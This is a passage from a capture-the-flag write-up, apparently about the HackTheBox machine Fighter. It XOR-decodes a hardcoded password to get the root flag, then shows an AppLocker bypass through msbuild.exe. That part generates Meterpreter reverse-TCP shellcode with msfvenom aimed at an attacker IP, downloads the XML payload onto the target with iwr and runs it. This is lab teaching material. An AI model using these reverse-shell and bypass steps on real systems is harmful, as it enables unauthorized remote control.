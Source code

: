 In Python, I can extract the password “OdioLaFeta”:

    
    
    >>> obpass = b'\x46\x6d\x60\x66\x45\x68\x4f\x6c\x7d\x68'
    >>> ''.join([chr(x^9) for x in obpass])
    'OdioLaFeta'
    

Giving that to `root.exe` returns the same flag as above:

    
    
    PS C:\users\administrator\desktop> .\root.exe OdioLaFeta
    d801c1e9bd9a02f8fb30d8bd3be314c1
    

## Alternative Paths

### AppLocker Bypass

#### msbuild

When I solved this box in 2018, I didn’t go to decoder, but rather bypassed
Applocker to get a Meterpreter shell. A popular AppLocker bypass at the time
of Fighter was using `msbuild.exe`, because it’s a legit trusted Windows
executable that will take an XML file and run code from it.

I’ll grab a [template
file](https://raw.githubusercontent.com/3gstudent/msbuild-inline-
task/master/executes%20shellcode.xml), and run `msfvenom` to generate the
shellcode:

    
    
    oxdf@hacky$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=443 -f csharp -v shellcode
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 354 bytes
    Final size of csharp file: 1831 bytes
    byte[] shellcode = new byte[354] {
    0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,
    0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
    ...[snip]...
    0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
    

`-f csharp` puts it in the format needed for this template, and `-v shellcode`
sets the output variable name to `shellcode`, to match the template. I’m using
a Meterpreter payload so I can show the MSF version of the exploit later.

I’ll add that shellcode to the template, and save the file, and upload it to
Fighter, and run it:

    
    
    PS C:\programdata> iwr http://10.10.14.6/shellcode.xml -outfile sc.xml
    PS C:\programdata> C:\Windows\microsoft.net\framework\v4.0.30319\msbuild.exe sc.xml
    